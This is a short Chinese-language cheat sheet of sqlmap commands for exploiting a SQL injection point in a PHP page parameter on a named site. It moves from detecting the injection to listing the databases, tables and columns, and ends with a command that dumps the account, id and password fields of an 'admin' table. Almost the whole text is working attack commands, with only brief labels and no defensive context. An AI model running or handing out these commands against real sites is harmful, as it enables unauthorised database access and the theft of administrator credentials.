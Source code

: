 检查注入点：
sqlmap -u http://aa.com/star_photo.php?artist_id＝11

爆所有数据库信息：
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 --dbs

爆当前数据库信息：
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 --current-db

指定库名列出所有表
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 --tables

'vhost48330' 为指定数据库名称

指定库名表名列出所有字段
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 -T admin --columns
'admin' 为指定表名称

指定库名表名字段dump出指定字段
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 -T admin -C ac，id，password --dump
'ac,id,password' 为指定字段名称